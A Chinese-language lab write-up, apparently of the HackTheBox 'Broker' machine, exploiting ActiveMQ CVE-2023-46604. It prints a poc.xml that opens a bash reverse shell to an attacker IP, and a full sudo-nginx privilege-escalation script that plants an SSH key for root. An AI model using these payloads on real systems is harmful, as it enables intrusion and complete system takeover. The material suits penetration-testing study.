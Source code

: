 nmap 結果
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

點進去原本是 http auth 的登入畫面 jetty 做的 但試了 admin/admin 就成功登入

登入是 ActiveMQ 發現版本號有個漏洞 [CVE-2023-46604](https://github.com/evkl1d/CVE-2023-46604)

![image](https://hackmd.io/_uploads/S1wNJK6zye.png)

原本照他的跑都不行 後面才想到要去看他的 `poc.xml` 修改成自己的 IP 跟 port
```
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.10.10/9001 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

成功 reverse shell

![image](https://hackmd.io/_uploads/BJmibi6Myl.png)

sudo -l 的結果
```
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

查詢後找到這個[腳本](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406)
```
echo "[+] Creating configuration..."
cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	        listen 1339;
	        root /;
	        autoindex on;
	        dav_methods PUT;
	}
}
EOF
echo "[+] Loading configuration..."
sudo nginx -c /tmp/nginx_pwn.conf
echo "[+] Generating SSH Key..."
ssh-keygen
echo "[+] Display SSH Private Key for copy..."
cat .ssh/id_rsa
echo "[+] Add key to root user..."
curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat .ssh/id_rsa.pub)"
echo "[+] Use the SSH key to get access"
```

透過他建立 root 的 ssh key 後在目標上連線 `ssh -i id_rsa root@10.10.11.243` 成功提權

![image](https://hackmd.io/_uploads/BkZERi6MJx.png)

也有很多其他的方法 例如建立自己的 nginx.conf 去取得資料等等 可以參考這篇 [writeup](https://blog.csdn.net/qq_43007452/article/details/143097142)

